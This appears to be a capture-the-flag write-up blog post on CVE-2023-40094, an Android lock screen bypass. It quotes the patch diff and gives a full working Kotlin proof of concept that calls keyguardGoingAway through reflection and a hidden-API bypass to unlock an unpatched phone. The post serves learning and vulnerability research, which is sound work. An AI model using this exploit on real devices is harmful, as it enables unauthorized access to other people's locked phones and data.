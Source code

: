 ```yaml
---
layout: post
title: BreizhCTF Writeup or Android PoC for CVE-2023-40094
date: 2024-05-23 12:14 +0200
categories: [CTF, Android, CVE]
img_path: /images/bzh-ctf-cve
---
```


## Introduction

The last mobile challenge from the 2024 edition of [BreizhCTF](https://www.breizhctf.com/) consists in developing a proof of concept for the vulnerability known as CVE-2023-40094. An vulnerable system partition is provided.

The goal is to use the app to unlock the phone.

_Note I didn't solve it during the CTF but I remember that according to the challenge the flag was on a screenshot you could see with the screen unlocked so you had to provide an APK that unlocks the phone_.

## CVE-2023-40094

<https://nvd.nist.gov/vuln/detail/CVE-2023-40094>:
> In keyguardGoingAway of ActivityTaskManagerService.java, there is a possible lock screen bypass due to a missing permission check. This could lead to local escalation of privilege with no additional execution privileges needed. User interaction is not needed for exploitation.

Let's take a look at the patch:

First you need to get the Android bulletin of december 2023 (simple Google search) and reach the commit page <https://android.googlesource.com/platform/frameworks/base/+/1120bc7e511710b1b774adf29ba47106292365e7>.

Then click on [diff](https://android.googlesource.com/platform/frameworks/base/+/1120bc7e511710b1b774adf29ba47106292365e7%5E%21/) to get the commit diff:

```diff
diff --git a/core/java/android/app/IActivityTaskManager.aidl b/core/java/android/app/IActivityTaskManager.aidl
index fe75dd3..b709b7e 100644
--- a/core/java/android/app/IActivityTaskManager.aidl
+++ b/core/java/android/app/IActivityTaskManager.aidl

@@ -239,6 +239,7 @@
      *              {@link android.view.WindowManagerPolicyConstants#KEYGUARD_GOING_AWAY_FLAG_TO_SHADE}
      *              etc.
      */
+     @JavaPassthrough(annotation="@android.annotation.RequiresPermission(android.Manifest.permission.CONTROL_KEYGUARD)")
     void keyguardGoingAway(int flags);
 
     void suppressResizeConfigChanges(boolean suppress);

diff --git a/services/core/java/com/android/server/wm/ActivityTaskManagerService.java b/services/core/java/com/android/server/wm/ActivityTaskManagerService.java
index aa15429..71ca852 100644
--- a/services/core/java/com/android/server/wm/ActivityTaskManagerService.java
+++ b/services/core/java/com/android/server/wm/ActivityTaskManagerService.java

@@ -18,6 +18,7 @@
 
 import static android.Manifest.permission.BIND_VOICE_INTERACTION;
 import static android.Manifest.permission.CHANGE_CONFIGURATION;
+import static android.Manifest.permission.CONTROL_KEYGUARD;
 import static android.Manifest.permission.CONTROL_REMOTE_APP_TRANSITION_ANIMATIONS;
 import static android.Manifest.permission.INTERACT_ACROSS_USERS;
 import static android.Manifest.permission.INTERACT_ACROSS_USERS_FULL;
@@ -3394,6 +3395,7 @@
 
     @Override
     public void keyguardGoingAway(int flags) {
+        mAmInternal.enforceCallingPermission(CONTROL_KEYGUARD, "unlock keyguard");
         enforceNotIsolatedCaller("keyguardGoingAway");
         final long token = Binder.clearCallingIdentity();
         try {
```

Notice that a permission _android.Manifest.permission.CONTROL_KEYGUARD_ was added to protect from the call to `public void keyguardGoingAway(int flags)` both in _IActivityTaskManager.aidl_ and _ActivityTaskManagerService.java_.

I guess that previously we could call this function without permission but what is _keyguard_? [Its the lock screen](https://stackoverflow.com/questions/17689842/what-is-the-keyguard-in-android) so our goal is to call `public void keyguardGoingAway(int flags)` with the right permissions.

## Setup

A vulnerable system (android-34) partition is provided for the challenge, simply put it under _\<Android Sdk Folder>/Android/Sdk/system-images_ then [create an AVD of a Pixel](https://developer.android.com/studio/run/managing-avds) from this image. Our goal is to bypass the lock screen so enable it first from the settings.

## Exploit

The goal is to call `public void keyguardGoingAway(int flags)` with the right flags from the class _ActivityTaskManagerService.java_. _ActivityTaskManagerService.java_ is an Android service so how can I call it since it does not live in the app process?

I found some posts that shows how to interact with those API (I just googled the name of the classes and the "exploit" keyword):
    - <https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html>: Hooks methods from `IActivityTaskManager`.
    - <https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit>: Hooks method _startActivity_ then trigger a DoS.

Inter-app communication uses the **Binder**. Its an Inter-process comunication mechanism that allows different processes to communicate efficiently (Its like optimized RPC).

Here it means that Android creates an object _IActivityTaskManager_ (defined by a interface file called _IActivityTaskManager.aidl_) that can call remotely methods of the service defined by _ActivityTaskManagerService.java_. This object is contained in the class _ActivityTaskManager_ as a _Singleton_.
As the Android framework is loaded in our App process and _ActivityTaskManager_ contains the instance of _IActivityTaskManager_ (has a Singleton) then It is possible to retrieve _IActivityTaskManager_ and then call `public void keyguardGoingAway(int flags)` remotely from the service _ActivityTaskManagerService.java_ (binder mechanism).

The following code is the PoC:

```kotlin
package com.bzh.love

import android.annotation.SuppressLint
import android.content.Context
import android.os.Build
import android.os.Bundle
import android.util.Log
import androidx.activity.ComponentActivity
import androidx.activity.compose.setContent
import androidx.annotation.RequiresApi
import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.material3.Text
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import com.bzh.love.ui.theme.BzhTheme
import org.lsposed.hiddenapibypass.HiddenApiBypass

class MainActivity : ComponentActivity() {
    @RequiresApi(Build.VERSION_CODES.P)
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        setContent {
            BzhTheme {
                    Column( modifier = Modifier.fillMaxSize(),
                        verticalArrangement = Arrangement.Center,
                        horizontalAlignment = Alignment.CenterHorizontally) {
                        Text(text = "Exploit is done")
                    }
                }
            }
        doExploit(this)
        }

    }




@RequiresApi(Build.VERSION_CODES.P)
@SuppressLint("PrivateApi", "DiscouragedPrivateApi", "BlockedPrivateApi")
fun doExploit(context: Context) {
    // some online posts show uses of those API:
    // - https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html
    // - https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit/
    // HiddenApiBypass comes from:
    // - org.lsposed.hiddenapibypass:hiddenapibypass:4.3

    // Goal: Call keyguardGoingAway using the ActivityTaskManagerService
    Log.i("EXPLOIT", "Launching exploit.")

    // IActivityTaskManager has the keyguardGoingAway method an can be called from our process
    // as it comes from the framework.
    val iActivityTaskManagerClazz = Class.forName("android.app.IActivityTaskManager")
    // We need ActivityTaskManager because it holds a stub of IActivityTaskManager as a Singleton:
    // "IActivityTaskManagerSingleton"
    val activityTaskManagerClazz = Class.forName("android.app.ActivityTaskManager")

    // We use reflection to get IActivityTaskManagerSingleton from ActivityTaskManager
    val iActivityTaskManagerSingletonField =
        activityTaskManagerClazz.getDeclaredField("IActivityTaskManagerSingleton")
    iActivityTaskManagerSingletonField.isAccessible = true // else we can't access private fields

    // our object IActivityTaskManagerSingleton is a singleton so I need to call its get() method
    // to extract the real object or use its mInstance
    val singletonClazz = Class.forName("android.util.Singleton")
    val mInstanceField = singletonClazz.getDeclaredField("mInstance")
    mInstanceField.isAccessible = true // else we can't access private fields

    // Finally get the object IActivityTaskManager from mInstance Field of the Singleton
    val iActivityTaskManagerSingleton = iActivityTaskManagerSingletonField.get(null)
    val iActivityTaskManager = mInstanceField.get(iActivityTaskManagerSingleton)

    // For the same reason I could not call getService() to get IActivityTaskManagerSingleton
    // directly, I can't call directly "keyguardGoingAway" so I use the framework HiddenApiBypass.
    try {
        HiddenApiBypass.invoke(iActivityTaskManagerClazz, iActivityTaskManager,
            "keyguardGoingAway", 0)
        Log.i("EXPLOIT", "Exploit is done. Phone must be unlocked.")
    } catch (_: Exception) {
        Log.i("EXPLOIT", "Exploit failed. Target may be not vulnerable.")
    }
}
```

Notes:

- The line `HiddenApiBypass.invoke(iActivityTaskManagerClazz, iActivityTaskManager, "keyguardGoingAway", 0)` is required as the exploit requires to call `keyguardGoingAway`. Android discourages the access to the API _android.app.IActivityTaskManager_ therefore it is a [hidden api](https://developer.android.com/guide/app-compatibility/restrictions-non-sdk-interfaces). Thus calling `keyguardGoingAway` requires to use an hidden API bypass such as <https://github.com/LSPosed/AndroidHiddenApiBypass>. To install it I had to had the following line to the dependencies in `build.gradle.kts`: `implementation("org.lsposed.hiddenapibypass:hiddenapibypass:4.3")`.
- I call _keyguardGoingAway_ with 0 as it worked with any value I provided.

Besides this line most of the code comes from the links:

- <https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html>
- <https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit/>

## Demonstration

![Demo](demo.gif)

## Final thoughts

This challenge is so interesting as it forces us to quickly develop a PoC for an existing vulnerability. Thats real world skills. I definitely should have taken more time to do it during the CTF. **Huge thanks to the author**.
